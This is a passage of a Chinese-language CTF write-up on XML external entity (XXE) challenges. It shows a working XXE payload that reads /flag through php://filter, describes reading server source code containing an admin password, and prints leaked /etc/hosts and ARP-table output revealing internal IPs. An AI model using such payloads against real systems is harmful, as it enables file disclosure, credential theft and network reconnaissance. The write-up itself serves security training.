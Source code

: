 ```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
 ]>

<user><username>&xxe;</username><password>123</password></user>
```

## 0x02 True XML cookbook

相当于第一题的加强版本

现在/flag里东西没了

看题目描述一开始以为要用上phar之类的骚操作，但是没有其他上传点了

fuzz读了一下 /var/www/html/doLogin.php

倒是有admin的密码了。。。

但是没啥用

读了/bin/sh 居然是有的。。。。

再读了读/etc/hosts 和/proc/net/arp

内网ip泄露

```
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.18.0.2	3b6bacb4719b
```
```
IP address       HW type     Flags       HW address            Mask     Device
192.168.1.40     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.75     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.55     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.16     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.63     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.249    0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.24     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.39     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.70     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.47     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.8      0x1         0x2         02:42:c0:a8:01:08     *        eth0
192.168.1.244    0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.23     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.50     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.252    0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.31     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.58     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.69     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.7      0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.34     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.77     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.15     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.42     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.49     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.243    0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.18     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.57     0x1         0x0         00:00:00:00:00:00     *        eth0
192.168.1.251    0x1         0x0         00:00:00:00:00:00     *        eth0
```